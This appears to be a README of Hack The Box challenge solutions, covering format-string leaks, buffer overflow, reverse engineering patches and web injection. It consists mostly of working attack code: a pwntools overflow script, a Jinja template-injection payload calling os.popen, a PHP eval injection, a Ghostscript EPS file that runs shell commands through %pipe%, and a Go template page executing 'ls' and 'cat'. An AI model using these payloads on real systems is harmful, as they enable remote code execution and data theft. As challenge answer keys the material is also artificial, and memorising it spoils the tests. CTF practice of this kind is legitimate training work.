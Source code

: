 # HTBSolutions

## Racecar
**Format String Injection.**

Input: %p %p %p %p 
Transform hex into ascii: reversarAscii.py

## You Know 0xDiablos
**Buffer Overflow.**
#### Padding (188) + FlagFunction + Padding (4) + Argument1 + Argument2 

File:
```
from pwn import *

flag = 0x080491e2
parm1 = 0xdeadbeef
parm2 = 0xc0ded00d

host = input("HOST: ")
host = host.split(':')

payload = b'a'*188 + p32(flag) + b'a'*4 + p32(parm1) + p32(parm2)

p = remote(host[0], int(host[1]))
p.sendline(payload)
p.interactive()
```

## Behind the Scenes
**Sensitive info in Source Code.**
Search Strings.

## Golfer - Part 1
Change JMP to the next instruction instead of to the function FUN_XXXXXX using Patch Instruction and exporting it into a new file.

## Bypass
**Functionality Bypass.**
Using dnSpy (x32). Add breakpoints at each if, changing the variables to true and another breakpoint at the end to see the flag.

## Template
**Code Injection.**
####/{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}

## LoveTok
**Eval Injection.**
#### ${print(\`cd ..; cat flag*\`)}

## PetPet RCBee
**RCE - Remote Code Execution.**

Create a file without extension:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100


userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```
Change it into a png. Upload it and go to: 
HOST:PORT/static/petpets/flag.txt

## RenderQuest
**Server-Side Template Injection in GO.**

Create a GitHub Page with the file index.html containg:
```
<html>
<head>
    <title>Document</title>
</head>
<body>
    <p>Client IP: {{.ClientIP}}</p>
    <p>User Agent: {{.ClientUA}}</p>
    <h1>HTB RenderQuest</h1>
    <p><b>Show dir:</b> {{.FetchServerInfo "ls /"}}</p>
    <p><b>Flag content:</b> {{.FetchServerInfo "cat /flag*.txt"}}</p>
</body>
</html>
```

Enter the page link as: https//[username].github.io
